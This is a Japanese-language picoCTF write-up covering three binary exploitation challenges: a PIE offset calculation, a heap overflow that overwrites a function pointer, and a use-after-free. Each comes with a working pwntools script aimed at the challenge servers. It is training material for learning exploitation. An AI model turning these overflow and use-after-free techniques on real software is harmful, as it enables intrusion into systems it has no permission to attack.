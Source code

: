 ## PicoCTF

### PIE TIME

プログラムを実行するとmain関数のアドレスが表示され、
プログラムは入力したアドレスの関数を実行することができる
win関数が存在し、ここに飛べばフラグを取得できる
→main関数とwin関数の差分を計算すれば良い

```
gef➤  b *main
Breakpoint 1 at 0x133d
gef➤  p(*main - *win)
$1 = 0x96
```

オフセットは0x96であることがわかった
つまり以下でフラグを取得できる

```
from pwn import *

#target = process("./vuln")
target = remote('rescued-float.picoctf.net',59172)

rec = target.recvline()
rec2 = rec.split(b': ')[1][:-1]

rec2_str = rec2.decode('utf-8')

value = int(rec2_str, 16)

result = value - 0x96
hex_result = hex(result)

print(hex_result)

#recv.split(b' : ')[1][:-1]
target.sendlineafter(b'Enter the address to jump to, ex => 0x12345:',hex_result)
target.interactive()
```

### heap2

・heapをA*32するとオーバーフローする  
・最終的にはwin関数を呼び出せばフラグを取得できる  
・4番を選択するとcheck_win関数を呼び出す  
  
check_win関数のソースコード

```
void check_win() { ((void (*)())*(int*)x)(); }
```

#### ((void (*)())*(int*)x)();について

x が指すアドレスに格納されている整数値を関数ポインタと見なし、その関数を「呼び出す」コードです。

つまり、**オーバーフローさせてxの値にwin関数を書き込んで上げればフラグを取得できる**

ソースコード
```
from pwn import *
import time

#target = process('./chall')
target = remote('mimas.picoctf.net',54745)
binf = ELF('./chall', checksec=False)

context.log_level = 'debug'

print(p64(binf.symbols['win']).hex())

payload = b'A'*32 + p64(binf.symbols['win'])
#payload = b'A'*32 + bytes.fromhex(p64(binf.symbols['win']).hex())
print(payload)

#time.sleep(1000)

target.sendlineafter(b'Enter your choice: ',b'2')

target.sendlineafter(b'Data for buffer:',payload)

target.sendlineafter(b'Enter your choice: ',b'4')
target.interactive()
```

### heap3

問題画面
```
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice:
```

・5番でxをフリーした後に1番を選択してheapを見ると、まだheapにxが存在している  
→use after freeの脆弱性がある  

・pwndbgでフリーした後にheapコマンドを実行すると0x30のtcachebinsにxがフリーされている  

・0x30でAllocateしてオーバーフローするとxの値を汚染できる  

ソースコード  

```
from pwn import *

#target = process('./chall')
target = remote('tethys.picoctf.net',54474)

payload = b'A'*30 + b'pico'

#free x
target.sendlineafter(b'Enter your choice:',b'5')

#allocate object 0x30 and over flow
target.sendlineafter(b'Enter your choice:',b'2')
target.sendlineafter(b'Size of object allocation:',b'30')
target.sendlineafter(b'Data for flag:',payload)

#check for win
target.sendlineafter(b'Enter your choice:',b'4')

target.interactive()
```
